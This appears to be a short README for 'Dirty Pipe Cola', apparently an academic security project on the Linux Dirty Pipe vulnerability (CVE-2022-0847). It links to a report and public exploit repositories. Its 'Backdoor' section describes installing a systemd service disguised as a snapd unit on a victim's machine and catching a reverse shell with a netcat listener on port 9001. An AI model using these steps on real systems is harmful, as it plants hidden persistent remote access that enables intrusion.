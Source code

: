 # Detailed information about this project can be found in our final project report (Dirty Pipe Cola - Final report.pdf)
https://github.com/stefanoleggio/dirty-pipe-cola/blob/main/Dirty%20Pipe%20Cola%20-%20Final%20report.pdf 

# Reference to CVE-2022-0847-DirtyPipe-Exploits
- https://github.com/febinrev/dirtypipez-exploit
- https://github.com/basharkey/CVE-2022-0847-dirty-pipe-checker

# Backdoor
- On the victim's machine, once priviledge has been achieved, place the snapd.loading.service in /etc/systemd/system folder. And run `$ sudo systemctl enable snapd.loading.service --now`. Note that the IP of the attacker device/server needs to be changed.

- On attacker machine, execute whenever you want to connect: `$ nc -nvlp 9001`


